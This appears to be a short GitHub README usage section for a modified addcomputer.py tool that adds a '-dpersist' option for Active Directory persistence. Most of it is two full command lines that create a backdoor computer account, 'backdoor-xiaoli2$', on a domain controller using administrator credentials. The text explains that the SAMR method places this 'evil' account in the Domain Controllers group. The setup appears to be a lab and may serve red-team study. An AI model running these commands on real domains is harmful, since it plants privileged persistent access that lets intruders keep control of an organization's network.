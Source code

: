 ## Usage

I just add [-dpersist] option for AD persistence. BTW, addcomputer.py default is use SAMR method to process requests.  
```
python3 ./addcomputer.py -computer-name 'backdoor-xiaoli2$' -computer-pass 'B@ckdo0r' -dpersist -dc-ip 192.168.10.90 xiaoli-vuln-2019.com/Administrator:111qqq...
```
![image](https://user-images.githubusercontent.com/30458572/155474120-33fac6d9-6f6f-42d7-8ecb-853fbd50beb0.png)

Difference with LDAPS method, SAMR method will add evil computer account to [Domain Controllers] group.
![image](https://user-images.githubusercontent.com/30458572/155474385-5fc155ab-5f89-42b6-bd57-ae701e446215.png)

LDAPS method will not do this.
```
python3 ./addcomputer.py -computer-name 'backdoor-xiaoli2$' -computer-pass 'B@ckdo0r' -method LDAPS -dpersist -dc-ip 192.168.10.90 xiaoli-vuln-2019.com/Administrator:111qqq...
```
![image](https://user-images.githubusercontent.com/30458572/155474567-34324b0e-db18-4c08-ac00-74acdabd901c.png)
![image](https://user-images.githubusercontent.com/30458572/155474683-7258dac7-c9b2-4a41-a2d6-f1e397980771.png)
